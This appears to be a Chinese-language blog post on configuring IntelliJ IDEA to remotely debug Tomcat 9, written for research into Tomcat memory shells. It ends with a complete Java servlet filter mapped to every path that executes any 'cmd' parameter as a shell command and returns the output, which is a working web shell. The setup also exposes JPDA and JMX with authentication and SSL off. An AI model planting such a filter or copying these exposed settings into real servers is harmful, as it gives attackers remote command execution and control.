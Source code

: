 ## IDEA tomcat远程调试

最近研究tomcat内存马，但本地不具备代码运行条件，本地dns坏了，本地运行报错：

	错误: 代理抛出异常错误: java.net.MalformedURLException: Local host name unknown: java.net.UnknownHostException: ***-PC: ***-PC

遂尝试远程调试，远程调试会自动把本地和远程的代码同步。

## 实验环境

本地 windows

tomcat 9.0.65

远程 centos

tomcat 9.0.65

本地和远程的tomcat版本必须一致。

## 远程配置

	cd /home/***/
	wget https://dlcdn.apache.org/tomcat/tomcat-9/v9.0.65/bin/apache-tomcat-9.0.65.zip
	unzip apache-tomcat-9.0.65.zip
    cd apache-tomcat-9.0.65/bin/
	vim catalina.sh

在最前面添加如下：

	export JPDA_ADDRESS=0.0.0.0:2333
	CATALINA_OPTS="-Dcom.sun.management.jmxremote -Dcom.sun.management.jmxremote.port=1099 -Dcom.sun.management.jmxremote.ssl=false -Dcom.sun.management.jmxremote.authenticate=false -Djava.rmi.server.hostname=10.10.40.65"
	export CATALINA_OPTS

其中，2333是调试debug的port，10.10.40.65是远程调试的主机，1099是jmxremote.port。(JMX最常见的场景是监控Java程序的基本信息和运行情况，任何Java程序都可以开启JMX)

启动tomcat

	./catalina.sh jpda start

![](images/1.png)

## 本地IDEA配置

```Edit Configurations --> Tomcat Server --> Remote```

![](images/2.png)

```Application Server --> Configure``` 选择tomcat路径 (本地和远程tomcat同一个版本的用处在这里体现出来了)

![](images/3.png)

```Tomcat Server Settings --> Remote staging``` 选择 Type "sftp"，Host里面配置ssh的密码就可以了，用于同步客户端和服务端源代码。 

![](images/4.png)

Mappings 里面本地代码根路径文件夹和远端代码的发布路径映射。

![](images/5.png)

Staging 里面的2个路径都填写项目部署到服务器上的路径。

![](images/6.png)

Server Tab 右面有 Deployment Tab，点击 Deployment Tab，点击 ```Artifact```，添加项目war包，点击 Apply。

![](images/7.png)

在 Deployment Tab 右边配置 Startup/Connection Tab，端口为在远程server catalina.sh配置的debug端口 2333。

## 启动IDEA 调试

点击debug 图标

![](images/8.png)

运行后，会自动同步客户端代码至服务端。

浏览器访问：

	http://10.10.40.65:8080/untitled1_war_exploded/?cmd=***

![](images/9.png)

### 我的代码：

![](images/10.png)


	import javax.servlet.*; // //apache-tomcat-7.0.79\lib\servlet-api.jar
	import javax.servlet.annotation.WebFilter;
	import javax.servlet.annotation.WebServlet;
	import javax.servlet.http.HttpServletRequest;
	import javax.servlet.http.HttpServletResponse;
	import java.io.IOException;
	import java.io.InputStream;
	import java.util.Scanner;
	
	//@javax.servlet.annotation.WebFilter(filterName = "CmdFilter")
	@WebFilter("/*")
	public class CmdFilter implements javax.servlet.Filter {
	    public void destroy() {
	    }
	
	    public void doFilter(javax.servlet.ServletRequest req, javax.servlet.ServletResponse resp, javax.servlet.FilterChain chain) throws javax.servlet.ServletException, IOException {
	        //HttpServletRequest req1 = (HttpServletRequest) req;
	        //HttpServletResponse resp1 = (HttpServletResponse) resp;
	        // 如果有cmd 参数 则拦截，否则 404
	        if (req.getParameter("cmd") != null) {
	            boolean isLinux = true;
	            String osTyp = System.getProperty("os.name");
	            if (osTyp != null && osTyp.toLowerCase().contains("win")) {
	                isLinux = false;
	            }
	            String[] cmds = isLinux ? new String[]{"sh", "-c", req.getParameter("cmd")} : new String[]{"cmd.exe", "/c", req.getParameter("cmd")};
	            InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
	            //Scanner通过用户回车进行读取IO流,然后扫描是否有分隔符,如果没有,那么继续等待下一段IO流.
	            Scanner s = new Scanner(in).useDelimiter("\\A");  //设置当前scanner的分隔符,默认是空格,正则表达式"\\A"跟"^"的作用是一样的，代表文本的开头。
	            String output = s.hasNext() ? s.next() : "";
	            resp.getWriter().write(output);
	            resp.getWriter().flush();
	        }
	
	        chain.doFilter(req, resp);
	    }
	
	    public void init(javax.servlet.FilterConfig config) throws javax.servlet.ServletException {
	    }
	}


## reference

[在 Idea 中配置远程 tomcat 并部署](https://blog.csdn.net/m0_67403272/article/details/124107815)